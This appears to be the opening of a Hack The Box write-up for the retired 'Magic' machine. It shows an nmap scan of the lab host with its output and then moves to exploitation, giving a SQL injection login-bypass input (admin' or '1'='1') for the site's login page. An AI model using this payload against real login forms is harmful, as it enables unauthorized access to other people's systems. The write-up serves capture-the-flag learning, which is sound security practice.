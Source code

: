 ```yaml
---
title: Magic
date: 2020-08-01 00:00:00 +0200
categories: [Hack The Box, Retired]
image: /Writeups/assets/img/HackTheBox/Magic/Magic.png
tags: [SQLi, linux, exiftoo, web-shell, medium, file upload]
---
```


# Reconnaissance & Enumeration

Let's start by looking at what ports are open:

```bash
nmap -sS -sC -sV -p- 10.10.10.185
[sudo] Mot de passe de fukurou : 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-04 15:17 CEST
Nmap scan report for 10.10.10.185
Host is up (0.046s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.53 seconds
```

So we know that there is a website on port 80 let's check it out:

![webportal]({{site.baseurl}}/assets/img/HackTheBox/Magic/webpage.png)

Let's see what the login page looks like:

![login]({{site.baseurl}}/assets/img/HackTheBox/Magic/login.png)

# Exploitation

## SQL Injection

Now that we have the login page, let's try to go through with SQLi

```
admin' or '1'='1'
password
```
